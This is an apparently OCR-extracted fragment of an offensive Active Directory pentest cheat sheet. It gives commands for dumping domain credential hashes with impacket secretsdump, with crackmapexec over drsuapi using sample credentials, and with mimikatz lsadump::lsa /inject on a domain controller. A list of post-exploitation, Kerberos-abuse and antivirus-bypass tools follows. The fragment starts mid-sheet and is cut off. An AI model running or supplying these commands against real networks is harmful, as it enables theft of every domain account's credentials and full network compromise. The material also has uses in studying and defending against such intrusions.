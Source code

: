     secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit -outputfile /tmp/result local
    python crackmapexec.py 192.168.1.56 -u morph3 -p pass1234 -d evilcorp.com --ntds drsuapi
    # on DC, lsass.exe can dump hashes
    lsadump::lsa /inject

Summary of tools
      Ad Environment

icebreaker
bloodhound
      Post Exploitation

Empire
DeathStar
CrackMapExec - CME
Covenant
Rubeus
SharpDPAPI
      ByPass

Ebowla
Veil-Framework
PsBypassCLM
      Swiss Knife

impacket
